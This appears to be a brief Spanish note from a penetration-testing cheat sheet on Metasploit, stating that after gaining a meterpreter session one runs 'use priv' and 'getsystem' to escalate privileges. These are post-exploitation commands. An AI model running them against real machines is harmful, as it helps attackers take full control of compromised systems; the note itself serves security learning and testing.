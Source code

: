 
# Metasploit

Una vez se tenga la meterpreter es necesario ejecutar los siguientes dos comandos:

```
use priv

getsystem
```

----

